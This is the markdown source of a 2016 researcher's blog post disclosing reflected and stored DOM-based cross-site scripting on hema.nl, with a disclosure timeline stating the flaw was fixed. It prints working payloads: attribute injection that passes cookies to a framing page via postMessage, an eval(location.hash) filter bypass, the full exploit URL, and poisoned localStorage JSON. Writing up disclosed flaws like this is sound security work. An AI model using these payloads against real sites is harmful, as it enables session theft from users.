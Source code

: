 ```yaml
---
title: Cross-site-scripting on one of the largest Dutch franchisors
subtitle: Reflected and "Stored" DOM-based cross-site-scripting on hema.nl
description: By abusing a sensitive data exposure vulnerability it is possible to steal data from a Hema user. If the user is signed in, data like the user's name and email can be stolen using cross frame scripting. Besides that, a malicious JavaScript payload can be inserted into the local storage which causes DOM-based XSS.
date: 2016-12-20 21:14:41
---
```


By abusing a sensitive data exposure vulnerability ({% customlink "https://www.owasp.org/index.php/Top_10_2013-A6-Sensitive_Data_Exposure" %}) it is possible to steal data from a Hema user. If the user is signed in, data like the user's name and email can be stolen using cross frame scripting ({% customlink "https://www.owasp.org/index.php/Cross_Frame_Scripting" %}). Besides that, a malicious JavaScript payload can be inserted into the local storage which causes DOM-based XSS.

> Please note that I used FireFox to test this vulnerability since browsers like Chrome, Safari and Edge have built in XSS auditors, which filter most of the reflected XSS.

> {% customlightbox "image-chrome-xss-auditor" "xss-auditor-block.png" "Google Chrome's XSS auditor" %}

### Proof of Concept (reflected XSS)
While examining hema.nl I found some interesting XHR calls. One of them was `ListerQuickView.aspx`, which contained a lot of GET parameters.

`http://www.hema.nl/Pages/Fredhopper/ListerQuickView.aspx?culture=nl-NL&nextProductId=pnl_60000199&prevProductId=&productId=pnl_60000198&productSku=12345`

I tried to inject JavaScript in all the parameters but it didn't really work. Especially because they blocked all requests if the URL contained a `<` sign followed by another character. The value of one of the parameters, `productSku`, was used as an attribute value. This made it possible to execute JavaScript using the `onmousemove` event. Unfortunately the `onload` event couldn't be used since the element it got injected in was a div.

You can find the payload I used below. The inline CSS causes the div to overlap all content (this increases the chance that `onmousemove` is triggered). The `parent.postMessage` passes the cookie to the parent frame on mouse move.

`&productSku=tes" style="width:100%;height:100%;position:absolute;top:0;left:0;" onmousemove="parent.postMessage(cookie, '*')">as`

Which resulted in the following HTML:

<a href="/content/xss-payload.jpg" data-lightbox="image-xss-payload" data-title="Payload in HTML">![xss-payload.jpg](/content/xss-payload.jpg)</a>

We can now place this piece of art in an iframe, which results in cross frame scripting.

### Proof of Concept (Stored DOM-based XSS)

Making it "Stored DOM-based XSS" is a bit more difficult. I divided it into two steps, bypassing the input restrictions and inserting the JavaScript payload into the local storage.

#### Bypassing Hema's input restrictions

The DOM-based XSS vulnerability contains a little bit more code. Lets use the previous payload and edit it to look like this: 

`data-message="message" style="width:100%;height:100%;position:absolute;top:0;left:0;" onmousemove="eval(location.hash.substring(1))"`

This code executes the JavaScript from the `location.hash`. I used `location.hash` since hema.nl blocks a lot of characters, like `<` and `{`, and the `location.hash` will not be included in the request, so hema.nl will never know about it.

In my location hash I wrote `#window.addEventListener(arguments[0].originalTarget.attributes[4].value,function(event){eval(event.data)})`.

I use `arguments[0].originalTarget.attributes[4].value` (where `arguments[0]` is the `onmousemove` event) to get the value of the fourth attribute of our div, which is the string `message`. I couldn't just add the string `"message"` to `addEventListener` since quotes in the hash are converted to `%22`, which results in an unexpected `%` character.

So all this code basically sets a listener for messages on mouse move. Using cross frame scripting we can now execute all the code we want in the hema.nl iframe using `postMessage`.

`document.getElementById('hema').contentWindow.postMessage('alert(document.cookie)', '*')`

Which results in:

<a href="/content/alert-cookie.png" data-lightbox="image-alert-cookie" data-title="Alert on mouse over">![alert-cookie.png](/content/alert-cookie.png)</a>

This is the full URL that I used:

`http://www.hema.nl/Pages/Fredhopper/ListerQuickView.aspx?culture=nl-NL&nextProductId=pnl_60000199&prevProductId=&productId=pnl_60000198&productSku=tes%22%20data-message=%22message%22%20style=%22width:100%;height:100%;position:absolute;top:0;left:0;%22%20onmousemove=%22eval(location.hash.substring(1))%22%20data-test=%22as#window.addEventListener(arguments[0].originalTarget.attributes[4].value,function(event){eval(event.data)});`

#### Making it "Stored DOM-based XSS"

Hema stores some interesting JSON in the local storage. For example, they store all the products that I added to my favorites.

A product that I added to my favorites looks like this:

<pre class="highlighting"><code>{
        "imgUrl":"https://images.hema.nl/products/mok-60000198-normal.jpg",
        "imgUrlX2":"https://images.hema.nl/products/mok-60000198-normal_twox.jpg",
        "name":"mok",
        "productId":"pnl_60000198",
        "price":"<span class="discount-info"></span><span class="price">3.<sup>-</sup></span>",
}</code></pre>

And ofcourse, using our postMessage, we can edit it so it looks like this (note the `onload` in the imgUrl):

<pre class="highlighting"><code>{
        "imgUrl":"https://images.hema.nl/products/mok-60000198-normal.jpg\" onload=\"alert(document.cookie)",
        "imgUrlX2":"https://images.hema.nl/products/mok-60000198-normal_twox.jpg",
        "name":"mok",
        "productId":"pnl_60000198",
        "price":"<span class="discount-info"></span><span class="price">3.<sup>-</sup></span>",
}</code></pre>

Hema loads the favorites and shows the image without encoding the URL. Which means every time the victim navigates to hema.nl an alert will pop up.

So there you go, Stored DOM-based XSS!

<a href="/content/proof-6.png" data-lightbox="image-stored-dom-based-xss-alert-cookie" data-title="Stored DOM-based XSS in hema.nl">![proof-6.png](/content/proof-6.png)</a>

### Domains
{% raw %}
<a href="http://www.hema.nl/" target="_blank" rel="noopener">www.hema.nl</a> (vulnerable)
<br>
<a href="http://www.hema.fr/" target="_blank" rel="noopener"><s>www.hema.fr</s></a> (protected by CloudFlare)
<br>
<a href="http://www.hema.be/" target="_blank" rel="noopener"><s>www.hema.be</s></a> (not vulnerable)
<br>
<a href="http://www.hemashop.com/" target="_blank" rel="noopener"><s>www.hemashop.com</s></a> (not vulnerable)
{% endraw %}

### Timeline
{% raw %}
<div class="table-responsive">
	<table class="table">
		<thead>
			<tr>
				<th>Date</th>
				<th>Activity</th>
			</tr>
		</thead>
		<tbody>
			<tr>
				<td>11 Dec 2016 18:43:34 GMT</td>
				<td>Reported the vulnerability to Hema.</td>
			</tr>
			<tr>
				<td>12 Dec 2016 09:23:21 GMT</td>
				<td>Hema is investigating the vulnerability.</td>
			</tr>
			<tr>
				<td>15 Dec 2016 13:54:56 GMT</td>
				<td>Hema confirmed the vulnerability.<br>Hema will be releasing a fix in week 51.</td>
			</tr>
			<tr>
				<td>20 Dec 2016 19:11:44 GMT</td>
				<td>Hema fixed the vulnerability.</td>
			</tr>
			<tr>
				<td>20 Dec 2016 19:14:41 GMT</td>
				<td>Public disclosure.</td>
			</tr>
		</tbody>
	</table>
</div>
{% endraw %}